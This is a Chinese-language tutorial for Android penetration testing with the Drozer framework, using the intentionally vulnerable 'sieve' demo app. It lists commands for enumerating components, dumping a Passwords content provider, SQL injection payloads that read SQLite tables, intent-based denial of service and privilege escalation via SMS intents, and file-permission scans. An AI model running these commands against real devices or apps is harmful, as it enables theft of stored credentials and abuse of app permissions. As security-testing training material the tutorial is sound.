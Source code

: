 一、安装与启动
　　1. 安装
　　第一步：从http://mwr.to/drozer下载Drozer (Windows Installer)
　　第二步：在Android设备中安装agent.apk
　　adb install agent.apk
　　2. 启动
　　第一步：在PC上使用adb进行端口转发，转发到Drozer使用的端口31415
　　adb forward tcp:31415 tcp:31415
　　第二步：在Android设备上开启Drozer Agent
　　选择embedded server-enable
　　第三步：在PC上开启Drozer console
　　drozer console connect
　　二、测试步骤
　　1.获取包名
　　dz> run app.package.list -f sieve
　　com.mwr.example.sieve
　　2.获取应用的基本信息
　　run app.package.info -a com.mwr.example.sieve
　　3.确定攻击面
　　run app.package.attacksurface com.mwr.example.sieve
　　4.Activity
　　（1）获取activity信息
　　run app.activity.info -a com.mwr.example.sieve
　　（2）启动activity
　　run app.activity.start --component com.mwr.example.sieve
　　dz> help app.activity.start
　　usage: run app.activity.start [-h] [--action ACTION] [--category CATEGORY]
　　[--component PACKAGE COMPONENT] [--data-uri DATA_URI]
　　[--extra TYPE KEY VALUE] [--flags FLAGS [FLAGS ...]]
　　[--mimetype MIMETYPE]
　　5.Content Provider
　　（1）获取Content Provider信息
　　run app.provider.info -a com.mwr.example.sieve
　　（2）Content Providers（数据泄露）
　　先获取所有可以访问的Uri：
　　run scanner.provider.finduris -a com.mwr.example.sieve
　　获取各个Uri的数据：
　　run app.provider.query
　　content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
　　查询到数据说明存在漏洞
　　（3）Content Providers（SQL注入）
　　run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
　　run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
　　报错则说明存在SQL注入。
　　列出所有表：
　　run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
　　获取某个表（如Key）中的数据：
　　run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
　　（4）同时检测SQL注入和目录遍历
　　run scanner.provider.injection -a com.mwr.example.sieve
　　run scanner.provider.traversal -a com.mwr.example.sieve
　　6 intent组件触发（拒绝服务、权限提升）
　　利用intent对组件的触发一般有两类漏洞，一类是拒绝服务，一类的权限提升。拒绝服务危害性比较低，更多的只是影响应用服务质量；而权限提升将使得没有该权限的应用可以通过intent触发拥有该权限的应用，从而帮助其完成越权行为。
　　1.查看暴露的广播组件信息：
　　run app.broadcast.info -a com.package.name　　获取broadcast receivers信息
　　run app.broadcast.send --component 包名 --action android.intent.action.XXX
　　2.尝试拒绝服务攻击检测，向广播组件发送不完整intent（空action或空extras）：
　　run app.broadcast.send 通过intent发送broadcast receiver
　　(1)   空action
　　run app.broadcast.send --component 包名 ReceiverName
　　run app.broadcast.send --component 包名 ReceiverName
　　(2)   空extras
　　run app.broadcast.send --action android.intent.action.XXX
　　3.尝试权限提升
　　权限提升其实和拒绝服务很类似，只不过目的变成构造更为完整、更能满足程序逻辑的intent。由于activity一般多于用户交互有关，所以基 于intent的权限提升更多针对broadcast receiver和service。与drozer相关的权限提升工具，可以参考IntentFuzzer，其结合了drozer以及hook技术，采用 feedback策略进行fuzzing。以下仅仅列举drozer发送intent的命令：
　　（1）获取service详情
　　run app.service.info -a com.mwr.example.sieve
　　不使用drozer启动service
　　am startservice –n 包名/service名
　　（2）权限提升
　　run app.service.start --action com.test.vulnerability.SEND_SMS --extra string dest 11111 --extra string text 1111 --extra string OP SEND_SMS
　　7.文件操作
　　列出指定文件路径里全局可写/可读的文件
　　run scanner.misc.writablefiles --privileged /data/data/com.sina.weibo
　　run scanner.misc.readablefiles --privileged /data/data/com.sina.weibo
　　run app.broadcast.send --component 包名 --action android.intent.action.XXX
　　8.其它模块
　　shell.start 在设备上开启一个交互shell
　　tools.file.upload / tools.file.download 上传/下载文件到设备
　　tools.setup.busybox / tools.setup.minimalsu 安装可用的二进制文件
